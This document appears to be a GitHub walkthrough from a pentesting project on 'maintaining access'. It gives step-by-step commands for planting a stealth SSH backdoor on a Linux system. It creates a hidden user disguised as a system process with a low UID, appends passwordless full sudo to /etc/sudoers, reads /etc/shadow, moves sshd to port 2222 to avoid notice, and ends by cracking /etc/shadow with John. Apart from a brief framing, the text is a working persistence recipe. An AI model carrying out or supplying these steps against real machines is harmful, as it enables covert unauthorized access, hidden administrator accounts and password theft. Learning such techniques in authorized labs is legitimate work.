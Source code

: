 # Creating a Back-Door - Owning the System

There are several Pentesting phases, methodologies, or frameworks such as the Mitre and the Cyber kill Chain frameworks. This project focus on the fourth phase of engagement (Maintaining Access) or their equivalents like "Command and Control" for the cyber kill chain or "Persistence" for the Mitre framework.

To obtain this persistence, a backdoor is created using the SSH service. In short, two things need to be accomplished to succeed in this task: Create a user, and set the SSH server.

> NOTE: This walkthrough assumes that the commands are executed as the root user. Otherwise, will be necessary to be a privileged user and to use the sudo command when required.

---

## Three steps are required to accomplish this task:

- Step 1: **Be a shadow** (Create a stealth user).

- Step 2: **Getting ready for a Smooth Sailing** (Set the SSH backdoor connection).

- Step 3: **All aboard** (The Final Test).

---

## Step 1: Be a shadow (Create a stealth user).


To be a "shadow" in the system means to remain as unnoticed as possible. To achieve it, we will create a user with different features next listed.

1. The right user's name.
2. User with no home directory.
2. System user's UID and GID.
4. Grant full sudo privileges to the "shadow user" without the need of a password.
5. Testing

- ### The right user's name

    Use a name that blends with the system, so remain unotice. A name that looks as a process will be the choice in this walkthrough.

    **Username: sysd**

- ### User with no home directory   

    It is easy to look for listed users in a Linux system by quering the /home directory (see the picture). 
    
     ![1](Images/1.PNG)    
    
    A user not listed in the home path will obtain stealth. To create a new user without a folder in the home directory, use the next command:

    `adduser --no-create-home sysd`

    Give your secret user a password

    Press enter on each of the next setting to leave them blank.

    ![2](Images/2.PNG) 

- ### System user's UID and GID

    UID (User Identified), and GID (Group Identifier) are numbers that identify users and groups. Numbers below 1000 are reserved for system processes. The "shadow user" should look like another process, so the following commands will do that.

    `usermod  -u 777 sysd`

    `groupmod -g 777 sysd`

    ![3](Images/3.PNG)

- ### Grant full sudo privileges to the "shadow user" without the need of a password.

    On a Linux system, the sudoers file is the file where the privilege settings exist. Here, sudo access will be configured for the "shadow" user using the following command:

    `echo 'sysd ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers`

    ![4](Images/4.PNG)

- ### Testing

    To verify that the "shadow" user has full sudo privileges and is ready to use them without a password, use the following commands:

    Check sysd priviledges:

    `sudo  -lU sysd`

    ![5](Images/5.PNG)

    Switch from current user to sysd user:

    `su sysd`

    ![6](Images/6.PNG)

    To test the current user sudo privileges, we need to revoke any previous sudo privileges stored in the cache. The next command accomplishes this.

    `sudo -k`

    ![7](Images/7.PNG)

    Check if ask for password when accessing the shadow file. This sensitive file holds the passwords' hash of all users in the system. Usually, only a sudo privilege user has access to this file. This user would need to enter a password to gain access. If no password is required, our setting pass the test. 

    `sudo cat /etc/shadow`

    ![8](Images/8.PNG)
    > Note in the image that sysd user is listed in the file with its respective password hash
---

## Step 2: Getting ready for a Smooth Sailing (Set the SSH backdoor connection)

We will use SSH (Secure Shell) to establish a remote connection with the target device. To create this backdoor, we need to set the SSH server configuration file. This file is located in the ssh directory. This directory holds several configuration files such as the SSH client, SSH server, and public and private keys used to encrypt sessions. SSH normally uses port 22. We want to maintain a stealth connection, so we are changing that port to 2222.

- Access and modify the file with nano:

    `nano /etc/ssh/sshd_config`

    ![9](Images/9.PNG)

  - Edit the sshd_config file:

    `Port 2222`

    ![10](Images/10.PNG)

- Save and Exit
    ```
    Press "Ctrl x" keys
    Press "y" key
    Press "enter" key
    ```

- Restart the SSH service to activate the new configuration:

    `sudo systemctl restart ssh`

    ![11](Images/11.PNG)

---

## Step 3: All aboard (The Final Test)

Exiting the target machine, then access it again through the previously created backdoor.

- Exit the target machine

    Enter the exit command and hit enter until exit the target machine

    `exit`

    ![12](Images/12.PNG)
  

- Access the target throught the backdoor (change the ip address for the one of your target machine).

    `ssh sysd@192.168.200.105 -p 2222`

     ![13](Images/13.PNG)

- Use sudo to switch to the root user:

    `sudo -s`

    ![14](Images/14.PNG)

---

# THE END ? (Enjoy yourselve)

A backdoor has been created. Now that persistence (Command and Control or Maintaining Access) has been accomplished, it is time to move to the next step of the killer chain (Actions on Objective) or to the last stage of engagement (Covering your tracks).

Example:
Use John to crack the entire /etc/shadow file:

`john /etc/shadow`

![15](Images/15.PNG)